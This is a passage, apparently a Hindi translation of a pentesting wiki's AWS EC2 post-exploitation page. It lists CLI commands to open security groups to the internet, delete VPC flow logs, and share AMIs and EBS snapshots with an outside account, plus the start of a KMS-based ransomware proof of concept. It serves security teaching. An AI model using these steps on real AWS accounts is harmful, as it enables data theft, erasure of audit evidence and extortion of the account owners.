 {% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### ECS के लिए प्रिवेस्क

एक EC2 इंस्टेंस चलाना और इसे ECS इंस्टेंस चलाने के लिए पंजीकृत करना संभव है और फिर ECS इंस्टेंस के डेटा को चुराना।

[**अधिक जानकारी के लिए इसे देखें**](../../aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs)।

### VPC फ्लो लॉग हटाएं
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMI साझा करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### सार्वजनिक और निजी AMIs में संवेदनशील जानकारी खोजें

* [https://github.com/saw-your-packet/CloudShovel](https://github.com/saw-your-packet/CloudShovel): CloudShovel एक उपकरण है जो **सार्वजनिक या निजी Amazon Machine Images (AMIs) के भीतर संवेदनशील जानकारी खोजने के लिए डिज़ाइन किया गया है**। यह लक्षित AMIs से उदाहरण लॉन्च करने, उनके वॉल्यूम को माउंट करने और संभावित रहस्यों या संवेदनशील डेटा के लिए स्कैन करने की प्रक्रिया को स्वचालित करता है।

### EBS स्नैपशॉट साझा करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

S3 पोस्ट-एक्सप्लोइटेशन नोट्स में प्रदर्शित Ransomware डेमोंस्ट्रेशन के समान एक प्रमाणित अवधारणा। KMS को Ransomware प्रबंधन सेवा के लिए RMS के रूप में पुनः नामित किया जाना चाहिए, क्योंकि इसे विभिन्न AWS सेवाओं को एन्क्रिप्ट करने के लिए उपयोग करना कितना आसान है।

पहले 'हमलावर' AWS खाते से, KMS में एक ग्राहक प्रबंधित कुंजी बनाएं। इस उदाहरण के लिए, हम बस AWS को मेरे लिए कुंजी डेटा प्रबंधित करने देंगे, लेकिन एक यथार्थपरक परिदृश्य में, एक दुर्भावनापूर्ण अभिनेता AWS के नियंत्रण से बाहर कुंजी डेटा को बनाए रखेगा। कुंजी नीति को इस प्रकार बदलें कि किसी भी AWS खाता प्रिंसिपल को कुंजी का उपयोग करने की अनुमति हो। इस कुंजी नीति के लिए, खाते का नाम 'AttackSim' था और सभी पहुंच की अनुमति देने वाला नीति नियम 'Outside Encryption' कहा जाता है।
```
{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:root"
```
